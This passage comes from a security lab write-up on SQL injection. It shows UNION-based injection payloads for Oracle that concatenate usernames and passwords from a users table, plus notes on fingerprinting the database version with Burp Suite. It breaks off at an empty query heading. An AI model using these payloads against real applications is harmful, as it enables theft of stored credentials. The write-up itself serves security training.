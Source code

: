 <br/>

### Lab: Retrieving multiple values within a single column

- Retrieve multiple rows worth by concatenating values together

- `|| '~' ||` represents the delimiter in this case

<br/>

**Sample Query on Oracle Database:**


```sql
''UNION SELECT username || '~' || password FROM users--
```

<br/>

**Query Injected:**


```sql
''UNION SELECT NULL,username ||'~'|| password FROM users--
```

<br/>

![2bf61f8f_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/eae3f982-9f88-4f48-bc52-7cf5289d1ba9)

<br/>

## Examining the Database

### Lab: Querying database type and version (Oracle Database)

- Queries for some popular database types

![e0d789ca_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/8125af47-8b2c-4b62-a4ec-8d2a87253e47)

- `version` represents global variable which consists of the version information of the host

<br/>

![eb27bdbe_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/bb6bd867-2dc6-4001-b67c-b57265ba4f6a)

- Results in **Burp Suite:**

<br/>

![71a04693_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/749120b3-06c6-4764-98b8-45a65a8fc71e)

- Query output displayed in the web application

<br/>

**SQL Query Used:**

